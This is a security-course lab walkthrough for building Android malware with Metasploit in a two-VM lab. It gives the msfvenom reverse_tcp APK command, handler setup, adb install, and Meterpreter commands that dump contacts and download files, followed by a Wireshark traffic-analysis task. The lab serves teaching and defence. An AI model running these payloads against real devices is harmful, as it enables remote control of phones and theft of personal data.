 # Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`


Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ sudo apt install python3-dev
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

Install [WireShark](https://www.wireshark.org/) to capture the traffic between two machines:

```
$ sudo add-apt-repository ppa:wireshark-dev/stable
$ sudo apt-get install wireshark
```

`````

`````{tabbed} Victim: Android
IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````

````{note}
The two IP addresses listed above are just examples, you need to replace the values with the actual IP addresses on your virtual machines by

```
$ ifconfig
```

in the following tasks.

Please make sure that the two VMs are configured with the same subnet.
````


## Explore Metasploits 

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP [^ex]

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.6 LPORT=4444 -f raw -o volume/reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`

![](victim.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:

![Dump all contacts information from the victim Android](contacts.png)

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` with root privilege:

```
$ sudo wireshark
```

When starting an `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here are the packets that the reversed TCP connection establishes (Note that `10.0.2.15:4444` is the malicious host):

![](./establish.png)

We dump the captured traffic into an `.pcap` file, which can be opened with `wireshark`. for example:

{download}`sample.pcap`

which records all network traffic during the attack, try to distinguish which traffics are related to the attack process.